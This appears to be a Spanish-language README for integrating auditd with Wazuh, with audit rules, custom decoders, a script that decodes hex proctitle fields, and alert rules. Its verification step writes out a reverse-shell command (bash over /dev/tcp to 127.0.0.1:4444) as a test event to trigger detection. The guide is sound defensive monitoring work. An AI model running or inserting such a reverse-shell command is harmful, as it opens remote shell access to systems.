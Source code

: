 # Integración auditd → Wazuh con decodificación de proctitle

## 1. Objetivo

Esta integración permite:

* Capturar eventos de auditd (tipos SYSCALL, EXECVE y PROCTITLE).
* Decodificar el campo proctitle, que viene en hexadecimal, y transformarlo a texto legible.
* Enriquecer los eventos en Wazuh con el comando exacto ejecutado por el usuario.
* Generar reglas de correlación que disparan alertas cuando se detectan llamadas a syscall=execve y comandos específicos.

## 2. Requisitos

* Wazuh Manager 4.12 (probado en esa version).
* auditd instalado, habilitado y generando logs en /var/log/audit/audit.log.
* Reglas auditd que registren execve y proctitle, por ejemplo en /etc/audit/rules.d/audit.rules:

```bash
-a always,exit -F arch=b64 -S execve -k execmonitor
-a always,exit -F arch=b32 -S execve -k execmonitor
```

## 3. Paso a paso

### 3.1. Crear decoders personalizados

* Modificar la configuracion para editar el decoder por defecto de Auditd en Wazuh.
* El archivo en cuestion es __0040-auditd_decoders.xml__
* Seguir la documentacion para realizar esta configuracion: https://documentation.wazuh.com/4.6/user-manual/ruleset/custom.html

Incluye decoders para:

* SYSCALL (extrae uid, auid, exe, syscall, comm, pid, ppid).
* PROCTITLE (extrae el campo hex).
* EXECVE (extrae argumentos opcionales).

Ejemplo de bloque para PROCTITLE:

```xml
<!-- PROCTITLE -->
<decoder name="auditd-syscall">
  <parent>auditd</parent>
  <regex offset="after_regex">type=PROCTITLE msg=audit\(\S+\): proctitle=(\.+)</regex>
  <order>audit.proctitle.msg, audit.proctitle.value</order>
</decoder>
```

### 3.2. Script de decodificación (custom integration)

Archivo: __/var/ossec/integrations/custom-auditd_decoder.py__

Este script convierte el campo HEX de proctitle a texto claro y lo devuelve generado en una alerta nueva.

Permisos recomendados:

```bash
chmod 750 /var/ossec/integrations/custom-auditd_decoder.py
chown root:wazuh /var/ossec/integrations/custom-auditd_decoder.py
```

### 3.3. Definir la integracion en Wazuh

En __/var/ossec/etc/ossec.conf__, dentro de __<ossec_config>__:

```xml
<integration>
  <name>custom-auditd_decoder.py</name>
  <rule_id>100371</rule_id>
  <alert_format>json</alert_format>
</integration>
```

### 3.4. Crear reglas personalizadas

Archivo: __/var/ossec/etc/rules/audit_custom.xml__

Ejemplo básico:

```xml
<rule id="100365" level="3">
    <if_sid>80700</if_sid>
    <field name="audit.type">SYSCALL</field>
    <description>Auditd: Syscall</description>
</rule>

<rule id="100371" level="3">
    <if_sid>100365</if_sid>
    <field name="audit.proctitle.msg">(\S+)</field>
    <description>Auditd: evento de syscall encodeado</description>    
</rule>

<rule id="100390" level="3">
    <field name="integration">custom-auditd_decoder</field>
    <description>Auditd: evento decodeado</description>    
</rule>

```

## 4. Reiniciar servicios

Tras cada cambio, reiniciar Wazuh Manager:

```bash
systemctl restart wazuh-manager
```

## 5. Verificación y pruebas

### 1. Generar un evento controlado:

Se ejecuta el siguiente comando:

```bash
find /tmp -name "temp_file.txt" -exec /usr/bin/python3 -c "import os; os.system('bash -i >& /dev/tcp/127.0.0.1/4444 0>&1')" \;
```

### 2. Revisar el log de Wazuh

![](./media/auditd1.png)

![](./media/auditd2.png)

![](./media/auditd3.png)

## 6. Resultados esperados

Cada ejecución de comando vía execve queda reflejada en Wazuh con:

* Usuario (uid, auid).
* Proceso (exe, comm, pid, ppid).
* Comando exacto en texto claro (proctitle.msg).
